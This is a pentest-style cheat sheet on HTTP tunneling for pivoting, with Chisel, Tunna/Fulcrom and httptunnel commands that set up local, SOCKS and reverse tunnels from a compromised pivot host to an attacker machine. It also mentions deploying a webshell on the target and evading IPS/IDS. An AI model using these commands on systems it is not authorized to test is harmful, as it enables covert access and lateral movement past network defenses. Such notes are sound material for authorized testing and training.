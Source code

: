 # ⭕ HTTP Tunneling

## Chisel Pivoting

Chisel offers to encapsulate TCP connexions in HTTP tunnels Everything is encrypted using SSH.

```
# Local port forwarding

# Pivot machine
$ chisel server -p 8080 --host 192.168.2.105 -v

# Attacker machine
$ chisel client -v http://192.168.2.105:8080 127.0.0.1:33333:10.42.42.2:80
```

```
# Local port forwarding + SOCKS proxy

# Pivot machine
$ chisel server -p 8080 --host 192.168.2.105 --socks5 -v

# Attacker machine
$ chisel client -v http://192.168.2.105:8080 127.0.0.1:33333:socks
```

```
# Reverse remote port forwarding

# Attacker machine
$ chisel server -p 8888 --host 192.168.2.149 --reverse -v

# Pivot machine
$ chisel client -v http://192.168.2.149:8888 R:127.0.0.1:44444:10.42.42.2:80
```

## Tunna / Fulcrom

```
# Everything is through HTTP
# Bypass some IPS/IDS

# First step is to deploy webshell on the target
# Some are available with the tool (but not good)
# Can be hard to use

# Then on the attacker machine
$ python2 proxy.py -u http://192.168.2.105:8080/conn.php -l 7777 -r 80 -a 10.42.42.2 -v
```

## HTS

```
apt  install httptunnel
hts --forward-port localhost:8888 1234 # server side
 htc --forward-port 8080 10.11.0.128:1234 # client side
```
